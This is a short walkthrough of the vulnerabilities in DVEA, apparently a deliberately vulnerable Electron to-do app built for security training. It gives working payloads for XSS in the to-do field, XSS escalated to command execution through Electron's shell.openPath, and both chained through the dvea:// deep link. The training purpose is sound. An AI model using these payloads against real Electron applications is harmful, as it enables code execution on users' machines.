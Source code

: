 Here's the brief walkthrough of security vulnerabilities in DVEA:

# Cross-site Scripting

A simple XSS payload of `<img src=1 onerror='alert("DVEA")'/>` will do perform XSS on the application when put in the to-do item section

# XSS to RCE

To perform RCE via XSS, you need to import "shell" library and execute its `openPath` function using which you can execute commands on the system

```
<a onmouseover="
try{
const  {shell}=require('electron');
shell.openPath('/System/Applications/Calculator.app/')
}catch(e){
    console.error(e)
}">Hover Me</a>
```

# Deep-link to XSS

The app is registered with a deep-link of `dvea://` which is used to add tasks to the app using deep link e.g. `dvea://task?add=Clean Your Room` which obviously can be fed with an XSS payload like `dvea://task?add=<img src=1 onerror="alert('Deep link XSS')"/>` when opened via browser.

# Deep-link to RCE

Now combining all the above attack vectors we can chain the deep link to achieve RCE using the same payload as in "XSS to RCE" when invoked via the deep link.
